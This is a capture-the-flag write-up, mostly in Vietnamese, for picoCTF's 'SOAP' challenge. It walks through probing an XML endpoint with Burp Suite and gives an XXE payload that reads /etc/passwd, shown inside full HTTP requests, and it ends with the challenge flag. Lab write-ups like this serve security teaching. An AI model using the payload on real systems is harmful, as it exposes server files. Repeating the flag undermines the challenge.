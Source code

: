 # Write-up : SOAP 
---
### Description :
> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
### Hint :
> XML external entity Injection
--- 
### Solution :
- Sau khi đọc hint và đề bài thì chúng ta biết lỗi trong bài này là XML Injection
- Dùng burp suite kiểm tra request gửi đi thì ta thấy mỗi khi bấm details của mỗi hình thì sẽ trả về 1 tham số id khác nhau

Dùng burp suite để chặn 1 request và chuyển request đó sang repeater để cùng thử các payload:
> khi thay đổi tham số id thì có sự thay đổi của response gửi về, khi thay đổi về 0 thì trả về :
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Fri, 27 Jun 2025 14:48:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: close

Invalid ID: 0
```
Thử với `` &lt; `` thì trả về : `` < `` 
```http
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<data><ID>&lt;</ID></data>
```
> Từ đó cho ta thấy `` xml parser `` có chạy vì thế ta có thể tạo và sửa đổi nội dung xml

Payload tấn công :
```xml
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
```
Và gọi `` &abc; `` ở chỗ `` xml parser `` hoạt động 
```http
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<data><ID>&abc;</ID></data>
```
### Flag : `` picoCTF{XML_3xtern@l_3nt1t1ty_55662c16} `` 
